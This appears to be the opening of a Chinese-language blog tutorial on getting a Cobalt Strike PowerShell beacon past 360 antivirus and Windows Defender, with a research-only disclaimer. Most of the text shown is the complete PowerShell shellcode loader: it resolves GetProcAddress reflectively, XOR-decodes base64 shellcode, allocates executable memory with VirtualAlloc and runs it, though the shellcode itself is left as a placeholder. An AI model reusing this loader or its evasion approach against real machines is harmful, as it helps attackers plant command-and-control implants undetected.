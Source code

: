 # Cobalt Strike Powershell过360+Defender上线

## 0x01 生成powershell脚本

> PS：本文仅用于技术研究与讨论，严禁用于非法用途，违者后果自负

前几天看了Y4er大佬免杀思路文章，我按照他的思路扩展了下总结的方法给大家参考，如有问题请大佬执教。

首先通过Cobalt Strike生成的powershell脚本。

![](https://image.3001.net/images/20200911/1599792194.png!small)

```text
Set-StrictMode -Version 2

$DoIt = @'
function func_get_proc_address {
	Param ($var_module, $var_procedure)		
	$var_unsafe_native_methods = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
	$var_gpa = $var_unsafe_native_methods.GetMethod('GetProcAddress', [Type[]] @('System.Runtime.InteropServices.HandleRef', 'string'))
	return $var_gpa.Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($var_unsafe_native_methods.GetMethod('GetModuleHandle')).Invoke($null, @($var_module)))), $var_procedure))
}

function func_get_delegate_type {
	Param (
		[Parameter(Position = 0, Mandatory = $True)] [Type[]] $var_parameters,
		[Parameter(Position = 1)] [Type] $var_return_type = [Void]
	)

	$var_type_builder = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
	$var_type_builder.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $var_parameters).SetImplementationFlags('Runtime, Managed')
	$var_type_builder.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $var_return_type, $var_parameters).SetImplementationFlags('Runtime, Managed')

	return $var_type_builder.CreateType()
}

[Byte[]]$var_code = [System.Convert]::FromBase64String('此处为shellcode，太长就不复制出来了')

for ($x = 0; $x -lt $var_code.Count; $x++) {
	$var_code[$x] = $var_code[$x] -bxor 35
}

$var_va = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((func_get_proc_address kernel32.dll VirtualAlloc), (func_get_delegate_type @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])))
$var_buffer = $var_va.Invoke([IntPtr]::Zero, $var_code.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($var_code, 0, $var_buffer, $var_code.length)

$var_runme = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($var_buffer, (func_get_delegate_type @([IntPtr]) ([Void])))
$var_runme.Invoke([IntPtr]::Zero)
'@

```